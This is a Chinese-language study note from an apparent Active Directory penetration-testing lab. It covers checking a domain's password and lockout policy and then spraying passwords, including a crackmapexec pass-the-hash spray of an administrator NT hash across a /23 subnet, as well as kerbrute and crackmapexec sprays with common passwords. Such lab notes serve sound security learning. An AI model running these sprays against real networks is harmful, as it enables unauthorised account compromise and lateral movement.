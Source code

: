 如果組織內有一台可以登入的 windows 主機，可以進去查看它的本地帳戶設置，可以用來猜測整個系統或組織採取一樣的管理策略

- net
    :::info
    net accounts
    :::
    ![image](https://hackmd.io/_uploads/rJdiBllH1e.png)
    :::success
    - 密碼永不過期（密碼最長期限設定為無限制）
    - 最小密碼長度為 8，因此很可能使用弱密碼
    - 鎖定閾值是 5 次錯誤密碼
    - 帳戶鎖定 30 分鐘
    :::
- PowerView
    :::info
    import-module .\PowerView.ps1
    Get-DomainPolicy
    :::
    ![image](https://hackmd.io/_uploads/B1jDhggB1l.png)
    :::success
    - 密碼永不過期（密碼最長期限設定為無限制）
    - 最小密碼長度為 8，因此很可能使用弱密碼
    - 鎖定閾值是 5 次錯誤密碼
    - 帳戶鎖定 30 分鐘
    :::

## 找密碼

### spray
- kerbrute
    :::info
    kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
    :::
    ![image](https://hackmd.io/_uploads/H1YiYexrJx.png)
- crackmapexec
    :::info
    sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
    :::
    ![image](https://hackmd.io/_uploads/SJk19egHkx.png)

    如果從本機 SAM 資料庫找到本機管理員帳戶的 NTLM hash，就可以在整個子網路（或多個子網路）上噴射 NT hash，以尋找具有相同密碼集的本機管理員帳戶。在下面的範例中，我們嘗試使用從另一台電腦檢索的內建本機管理員帳戶 NT hash 對 /23 網路中的所有主機進行驗證。該 --local-auth 標誌將告訴工具僅在每台電腦上嘗試登入一次

    > SAM 資料庫（Security Accounts Manager 資料庫）包含了本機使用者帳戶的資料，包括用戶名、密碼雜湊以及其他安全性資訊。然而，由於 SAM 資料庫包含敏感資料，它是受到保護的，只有具有管理員權限的使用者或特定系統服務才能訪問它。

    :::info
    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
    :::
    ![image](https://hackmd.io/_uploads/HJ5oixgByx.png)
